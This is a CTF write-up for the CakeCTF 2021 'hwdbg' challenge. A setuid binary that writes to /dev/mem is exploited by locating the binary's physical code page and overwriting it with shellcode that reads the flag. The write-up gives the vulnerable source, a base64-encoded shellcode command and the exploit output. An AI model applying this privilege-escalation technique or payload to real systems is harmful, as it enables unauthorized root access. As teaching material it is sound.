

hwdbg
====

**Category**: pwn, lunatic \
**Points**: 321 points (7 solves) \
**Author**: ptr-yudai

I found a setuid-ed binary at /bin/hwdbg. Although I thought it'd be useful for
privilege escalation, I couldn't find any vulnerability in the program...

```
nc others.cakectf.com 9005
```

Attachments: `hwdbg.tar.gz`

## Overview

> Writeup by Andrew Haberlandt (ath0), solved with @qxxxb

We're given a QEMU boot script, `rootfs.cpio`, and `bzImage`. Booting into the machine, we indeed see that `/bin/hwdbg` has the setuid bit set.

```
/ $ ls -lah /bin/hwdbg
-r-sr-xr-x    1 root     root       25.6K Aug 28 03:18 /bin/hwdbg
```

Looking at the source code `hwdbg.c`, we see:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

void print_usage(char *progname)
{
  puts("Hardware (I/O port) debugging utility\n");
  printf("Usage: %s mr|mw|ior|iow <size> <offset>\n", progname);
  exit(1);
}

int mem_read(off_t _offset, size_t _size)
{
  fputs("mem_read: Not implemented\n", stderr);
  return -1;
}

int mem_write(off_t offset, size_t size)
{
  char buf[0x1000];
  int fd = open("/dev/mem", O_RDWR|O_SYNC);
  if (fd == -1) {
    perror("/dev/mem");
    return -1;
  }

  lseek(fd, offset, SEEK_SET);
  for (size_t i = 0; i < size; i += 0x1000) {
    ssize_t nb = read(0, buf, 0x1000);
    if (nb <= 0) break;
    write(fd, buf, i + 0x1000 <= size ? nb : size % 0x1000);
  }

  close(fd);
}

int io_read(size_t size) {
  fputs("io_read: Not implemented\n", stderr);
  return -1;
}

int io_write(size_t size) {
  fputs("io_write: Not implemented\n", stderr);
  return -1;
}

int main(int argc, char **argv)
{
  if (argc < 4)
    print_usage(argv[0]);

  size_t size = strtoll(argv[2], NULL, 16);
  off_t offset = strtoll(argv[3], NULL, 16);

  if (strcmp(argv[1], "mr") == 0) {
    /* Memory read for hardware operation */
    return mem_read(offset, size);

  } else if (strcmp(argv[1], "mw") == 0) {
    /* Memory write for hardware operation */
    return mem_write(offset, size);

  } else if (strcmp(argv[1], "ior") == 0) {
    /* Input from hardware I/O port */
    return io_read(size);

  } else if (strcmp(argv[1], "iow") == 0) {
    /* Output to hardware I/O port */
    return io_write(size);

  } else {
    print_usage(argv[0]);
  }
}
```

In short, we can write whatever we want into `/dev/mem`, which controls
physical memory.

## Setup

First let's extract `rootfs.cpio`:
```sh
mkdir fs
cd fs
# This must be run as root to get correct permissions
sudo cpio -idv < ../rootfs.cpio
cd ..
```

Next extract `bzImage`:
```sh
wget -O extract-vmlinux https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux
chmod +x extract-vmlinux
./extract-vmlinux bzImage > vmlinux
```

Let's make our own `launch.sh` that will compress our `fs/` folder and boot
into it with QEMU:

```bash
#!/bin/bash

# Compress `fs` folder into `.cpio.gz`
pushd fs
find . -print0 | cpio --null -ov --format=newc | gzip -9 > ../rootfs_new.cpio.gz
popd

qemu-system-x86_64 \
    -s \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu qemu64,+smep,+smap \
    -monitor /dev/null \
    -initrd $PWD/rootfs_new.cpio.gz \
    -net nic,model=virtio \
    -net user
```

After booting we see:
```
...
eth0: leased 10.0.2.15 for 86400 seconds
eth0: adding route to 10.0.2.0/24
eth0: adding default route via 10.0.2.2
forked to background, child pid 83
Welcome to CakeCTF 2021
/ $
```

In another terminal, we can debug the kernel like so:
```
sudo gdb vmlinux  # Run as root
gef>  target remote :1234
```

## Solution

I don't know much about linux kernel pwn. But I'm familiar with userspace.
`hwdbg` is a setuid program so if we pwn it, we can read the flag and win. They
give us direct access to physical memory, so this should be easy. There should
be some (writable) pages in physical memory somewhere for the hwdbg program. My
initial thought is that we ought to be able to find something to overwrite
(`malloc_hook`, or something you otherwise might use for exploitation in
userspace). But how do we know what physical page our program is in?

qxxxb had heard of a cool tool to show page tables in GDB when attached to
QEMU: https://github.com/martinradev/gdb-pt-dump/

I modified this tool slightly to output the physical addresses when using the
`pt -sb` command to search. (see `gdb-pt-dump.patch`)

Searching for some unique sequence of instructions in `hwdbg`, we get an interesting result:

```
gef>  pt -sb ba19000000be01000000488d3d4e3d0000e8a2050000
Found at 0xffff95fa038b8316 in   0xffff95fa035e0000 : 0xa00000 | W:1 X:0 S:1 UC:0 WB:1
Found at 0xffffffffb70b8316 in   0xffffffffb6de0000 : 0x420000 | W:1 X:0 S:1 UC:0 WB:1
gef>  pt -kaslr
Found virtual image base:
	Virt:   0xffffffffb5e00000 : 0xa01000 | W:0 X:1 S:1 UC:0 WB:1
	Phys: 0x2600000
Found phys map base:
	Virt: 0xffff95fa00000000 in   0xffff95fa02600000 : 0xa01000 | W:0 X:0 S:1 UC:0 WB:1
```

This is before even running `hwdbg` even once. There is a *writable* page in
physical memory containing the executable. We didn't bother to check, but the
entire filesystem is probably be sitting in physical memory. And better yet,
it's at a constant physical address:
`0xffff95fa038b8316 - 0xffff95fa00000000 = 0x38b8316`.

If you run `hwdbg` once (and let it hang running) we get a better picture of what is going on:

```
gef>  pt -sb ba19000000be01000000488d3d4e3d0000e8a2050000
Found at 0x401316 in             0x401000 :   0x4000 | W:0 X:1 S:0 UC:0 WB:1 (phys 0x38e5000)
Found at 0xffff95fa038b8316 in   0xffff95fa035e0000 : 0xa00000 | W:1 X:0 S:1 UC:0 WB:1
Found at 0xffffffffb70b8316 in   0xffffffffb6de0000 : 0x420000 | W:1 X:0 S:1 UC:0 WB:1
```

Our executable page is mapped at `0x401000` in `hwdbg`'s virtual address space,
and that maps to physical address `0x38e5000`. The other match
`0xffff9e4a038e5316` is just the mapping of this page in the kernel's virtual
address space.

So when our executable is launched, it literally just adds a single page table
entry to map our page from the filesystem into the process (as executable), but
we can still write to this from `/dev/mem`.

The sequence of instructions I was searching for was not entirely randomly
chosen... this is a decent spot to patch in the `io_read` function of this
program -- this functionality is not needed.



So we just patch this out with code that does a open+read+write, then we run any valid 'ior' command:
```
/bin/hwdbg ior 0 0
```

See solve.py for script. Output:
```
$ python3 solve.py
echo "SI09OQAAAEgx9kjHwAIAAAAPBVBIicdIieZIx8JAAAAASDHADwVIx8cBAAAASInmSMfCQAAAAEjHwAEAAAAPBS9mbGFnLnR4dAA=" | base64 -d | /bin/hwdbg mw 0x4a 0x38e5316
[x] Opening connection to others.cakectf.com on port 9005
[x] Opening connection to others.cakectf.com on port 9005: Trying 139.59.228.208
[+] Opening connection to others.cakectf.com on port 9005: Done
solve.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter("/ $ ", cmd)
/home/plushie/Programs/archive/pwntools/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
solve.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter("/ $ ", "/bin/hwdbg ior 0 0")
[*] Switching to interactive mode
/bin/hwdbg ior 0 0
CakeCTF{phys1c4l_4ddr3ss_1s_th3_m0st_h0n3st_4ddr3ss_083f63}
Illegal instruction
/ $
```
